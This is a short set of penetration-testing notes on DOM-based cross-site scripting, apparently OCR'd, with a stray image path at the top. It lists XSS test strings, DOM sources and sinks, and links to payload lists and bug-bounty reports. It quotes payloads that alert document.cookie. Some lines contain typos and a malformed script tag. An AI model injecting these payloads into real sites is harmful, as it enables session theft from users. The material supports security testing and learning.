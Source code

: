 >Several browsers, including Firefox and Safari, happily render an image fi le as HTML. The binary parts of the image are displayed as junk, and any embedded HTML is displayed in the usual way.



#### Finding and exploiting DOM-Based XSS
DOM-based XSS vulnerabilities are found going manually to the webpage and assing values to the parameters to try standard tests:
```
"<script>alert(1)</alert>
";alert(1)//
'-alert(1)-'
```
With these standard test not always you can discover DOM-based XSS, te best way to be sure of this is locate and annalyze each field potentially vulnerable, that means all of the next javascript functions:
```
## DOM data controle by the URL
document.location
document.URL
document.URLUnencoded
document.referrer
window.location

## Other possibilities
document.write()
document.writeln()
document.body.innerHtml
eval()
window.execScript()
window.setInterval()
window.setTimeout()
```


###### Some more resources
```text
Cross site scripting (XSS)

#Payloads
https://github.com/payloadbox/xss-payload-list
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS

#bugbounty
##Twitter
https://hackerone.com/reports/1264834
(payload :"><img src=x onerror=alert(document.cookie);.jpg)

https://hackerone.com/reports/1601140
(%3Csvg+on+onload%3D%28alert%29%28document.domain%29%3E)

https://hackerone.com/reports/1367642
("></script><script>alert(document.cookie)</script>)
```
## Resources
https://book.hacktricks.xyz/pentesting-web/file-upload
